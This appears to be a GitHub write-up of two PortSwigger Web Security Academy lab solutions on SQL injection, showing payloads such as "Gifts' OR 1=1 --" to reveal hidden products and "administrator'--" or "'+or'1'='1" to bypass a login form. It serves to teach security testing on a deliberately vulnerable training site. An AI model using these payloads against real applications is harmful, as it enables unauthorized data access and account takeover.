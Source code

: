 ## Labs Covered

This write-up focuses on the following **APPRENTICE-level labs** from the PortSwigger Web Security Academy related to **SQL Injection**:

**SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**  
This lab demonstrates how an attacker can exploit SQL injection in the WHERE clause to extract data that is normally hidden or filtered.

**SQL injection vulnerability allowing login bypass**  
This lab shows how SQL injection can be used to bypass authentication mechanisms and gain unauthorized access.

---

### LAB 1 - SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Lab Description

![image](https://github.com/user-attachments/assets/335cfde7-ac3a-49c0-8259-074537e8121d)

### Solution


When the buttons are clicked it is filtered by category,So we navigate to gift:

Query made - 
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```
![image](https://github.com/user-attachments/assets/83dd03bb-3eff-4a4f-bff0-9d6d1f2d627b)

The above is done with a GET request:

![image](https://github.com/user-attachments/assets/b75e508d-a3bb-46e5-998f-021e874e6f6b)


Using the following payload **Gifts' --**  we get 4 items instead of only 3, because it shows both the released and the hidden one:!

![image](https://github.com/user-attachments/assets/60f7aa97-dafc-46df-a552-7ff547c0a189)

To view all the products (both released and not released) , we include **Gifts' OR 1=1 --** so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like 

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1`
```

![image](https://github.com/user-attachments/assets/c7a1c09e-8971-4d86-b3cc-260fe58d896e)


> NOTE - URL encode before forwarding the request

![image](https://github.com/user-attachments/assets/c5b93fe8-8583-45bb-a657-7b69ab9e80f1)


---

### LAB 2 - SQL injection vulnerability allowing login bypass

### Lab Description
![image](https://github.com/user-attachments/assets/80bedfbb-aa64-4b88-ab21-f7dd0f82bf67)

### Solution

First we login as random user

![image](https://github.com/user-attachments/assets/d5f30649-07ab-448b-85a7-bcc57ebd78e9)

The login functionality works with a POST request:

![image](https://github.com/user-attachments/assets/4954b6f0-8e37-4d7a-9907-b45f209ab00f)

Query made -

```sql
SELECT * FROM users WHERE username = 'test' AND password = 'test'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator5'--' AND password = 'test'
```

or we can input correct used and make password statment true
```sql
SELECT * FROM users WHERE username = 'administrator' AND password = '+or'1'='1
```
Using the following payload in the password field it is possible to login:

**'+or'1'='1**

![image](https://github.com/user-attachments/assets/27c0088c-f0dd-4636-bb55-feab817e9b01)

Lab is solved

![image](https://github.com/user-attachments/assets/ee3c01e9-4042-42f2-bb20-331e262e517f)

